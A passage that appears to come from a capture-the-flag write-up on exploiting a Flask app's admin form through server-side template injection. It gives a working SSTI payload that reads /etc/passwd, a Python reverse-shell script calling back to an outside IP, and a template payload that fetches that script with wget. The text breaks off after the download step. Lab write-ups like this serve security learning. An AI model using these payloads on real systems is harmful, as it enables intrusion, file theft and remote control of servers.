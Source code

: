 Now we can see that there's a big input field. I tried various thing in it but nothing worked, then I realized that this was a flask app so maybe it was vulnerable to SSTI.

I tested it with `{{config}}` and to my surprise it was vulnerable to it.

```bash
➜ curl -s 'http://10.1.1.45:5001/admin' -H 'Cookie: session=eyJhZG1pbiI6dHJ1ZSwiaWQiOjF9.EJCQbQ.i_HpmnQsI3s1GKVuCw22VVypRTQ' --data 'html=%7B%7Bconfig%7D%7D' | pup 'div'
```

![](images/config.png)

With

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
I was able to read `/etc/passwd` file

![](images/passwd.png)

## Reverse shell & user pwn

After trying lots of things I was able to upload a python reverse shell and then execute it. Do the following to get a reverse shell:

1) Make a file having a reverse shell code

```python
import socket,subprocess,os
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.254.0.10",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

__NOTE__: Change the IP and port in this

2) Host this file using `python3 -m http.server`
3) Execute the following command in the HTTP form

```bash
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("wget http://10.254.0.10:8000/rev.py -O /tmp/rev.py").read().zfill(417)}}{%endif%}{% endfor %}
```
